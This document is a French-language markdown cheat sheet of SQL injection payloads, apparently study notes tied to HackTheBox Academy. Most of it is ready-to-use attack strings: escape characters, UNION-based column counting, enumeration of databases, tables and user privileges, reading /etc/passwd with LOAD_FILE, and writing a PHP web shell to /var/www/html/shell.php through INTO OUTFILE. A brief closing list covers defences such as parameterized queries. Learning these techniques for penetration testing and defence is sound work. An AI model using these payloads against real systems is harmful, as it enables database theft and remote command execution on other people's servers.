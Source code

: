 # SQL INJECTION

----
![Types d'injection sql](../Ressources/IMG/types_of_sqli.jpg)
* L'injection sql commence toujours avec : **'**
dans le but d'escape 

|Payload | URL Encoded | commentaire|
|--|--|-- |
|'|%27| 
|"|%22|
|#|%23|
|;|%3B|
|)|%29|
|-- |--+| commentaire ("--" + espace )|
|#|%23| commentaire |

|Operations | Response |
|--|--|
|OR 1=1| true|
|@@version|Version utilisé ( pas une injection mais une var qui donne un string ) |
|database()| database name|


###### information à propos des utilisateurs et des privilèges
```sql
# username 
select user() |  current_user
       user from mysql.user
# privilege 
SELECT super_priv FROM mysql.user
# si on a plusieurs utilisateurs , on ajoute le where
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -

# dump other privileges 
# ajouter where quand il y'a plusieurs users
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -

```
---

###  UNION INJECTIONS :

> en fonction du nombre de colonne manquant, on rajoute de faux inputs

```sql
# employee à 6 colonnes et departments 2
# selectionner toutes les colonnes dans employee avec *

# selectionner les deux colonnes de departments 
# avec leur nom puis rajouter des trus random comme colonnes suivante 

SELECT * FROM employees UNION SELECT dept_no,dept_name,3,5,4,6 FROM departments AS result;

```
#### Trouver le nombre de colonne d'une table

##### Utilisation de UNION ou ORDER BY 
```sql

# ajouter l'extra - après les 2 précédants pour montrer qu'il y'a un espace après --

#ORDER BY
# s'arreter quand il y'a une erreur , pour un nombre n => le nombre de colonne = n-1
' order by <nombre>-- -

# UNION
# s'arrete quand il n'y a pas d'erreur => pour un nombre n => le nombre de colonne = n
cn' UNION select <fakeName1>,<Fakename2>,..,<FakeNameN>-- -

```

----
### Collecte d'information :  Énumération de base de données

* List des bases de données
* List des tables dans la base de données
* List des colonnes dans chaque table
> Pour avoir ces informations , on doit afficher INFORMATION_SCHEMA

#### List des bases de données
###### **SCHEMA_NAME** column contains all the database names currently present

```sql
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```
#### List des tables dans la base de données
* utilisation de **TABLE_NAME** et **TABLE_SCHEMA** dans **INFORMATION_SCHEMA.TABLES**
```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='<dbName>'-- -
```

#### List des colonne d'une table dans la base de données
* utilisation de **COLUMN_NAME** **TABLE_NAME** **TABLE_SCHEMA** dans **INFORMATION_SCHEMA.COLUMNS**
```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='<NameOfTable>'-- -
```

----
### Lecture de fichiers
* L'utilisateur de la base de données doit avoir le privilège FILE

```sql
# load_file accpeté par mysql and mariadb
SELECT LOAD_FILE('</etc/passwd | Path>');
```

----
### Écriture de fichiers

###### requirements : 
* FILE privilege
* secure_file_priv disabled
    ```bash
    SHOW VARIABLES LIKE 'secure_file_priv';

    SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"

    cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
    ```

* Write access to the location we want to write to on the back-end server
* write file 
```sql
# mettre le select dans un fichier 
SELECT <Element> from <tableName> INTO OUTFILE '<OutPutPath>'; # ex: SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';

```

> Note: To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use load_file 

```sql
# exemple
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

----
### Protection
##### Anti escape de :  ' "

##### utiliser en php : 
* Pour Postgre : **pg_escape_string()**
* Pour Mysql : **mysqli_real_escape_string()**

##### Validation des input
* utiliser : !preg_match()

##### limit privileges to select

##### install web firewall

##### using parameterized queries
----

## Ressources

###### [_SQL Basics_](../HackTheBox/Academy/SQL%20basics.md)
###### [_Payload all the things_](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)